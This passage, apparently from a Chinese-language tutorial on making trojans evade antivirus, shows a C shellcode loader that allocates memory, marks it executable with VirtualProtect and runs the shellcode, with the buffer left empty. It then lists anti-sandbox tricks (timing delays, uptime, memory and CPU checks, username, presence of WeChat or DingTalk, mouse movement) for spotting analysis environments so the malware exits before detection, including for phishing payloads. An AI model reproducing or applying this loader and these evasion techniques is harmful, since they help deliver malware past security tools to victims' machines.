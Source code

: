 -   **lpAddress：指向要变更保护属性的地址起始位置**
-   **dwSize：要更改其访问保护属性的区域的大小**
-   **flNewProtect：更改的内存属性**
-   **lpflOldProtect：内存原始属性保存地址**

**代码如下：**

```php
#include <Windows.h>

int main() {
    int shellcode_size = 0; // shellcode长度
    BOOL pt;
    DWORD oldProtect;
    unsigned char buf[] = {  };
    shellcode_size = sizeof(buf);
    LPVOID shellcode;
    shellcode = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT, 0x04);
    CopyMemory(shellcode, buf, shellcode_size);
    pt = VirtualProtect(shellcode, shellcode_size, 0x20, &oldProtect);
    ((void(*)())shellcode)();
}
```

由于篇幅有限,APC注入等涉及到windows异常处理机制,这里暂不介绍,有兴趣可以自行了解

### 3.反沙箱

反沙箱是木马免杀中极为重要的一环

为什么这么说呢?

**所有的杀软本地都会有一个内置的沙箱,当我们想要运行一个陌生的exe时,都会在沙箱中模拟运行,所有木马能否上线的关键点在于反沙箱**

##### 那么沙箱查杀的是什么呢?

1.静态查杀

如何处理?

做好 源代码的混淆 资源文件 动态解析API

2.动态查杀

当你的exe在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ,此时沙箱会检测此类操作,

**然后报读**

##### 我们要写反沙箱首先要了解沙箱的特性是什么:

沙箱不是真实的环境,而是被虚拟话出来的

1.常规的反沙箱

我们可以通过延迟执行、开机时间、物理内存、CPU核心数，文件名、磁盘大小、500M内存0填充、用户名、进程名去判断是否是在沙箱的环境中,如果是在沙箱的环境,那就退出

2.钓鱼的如何写反沙箱

或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断
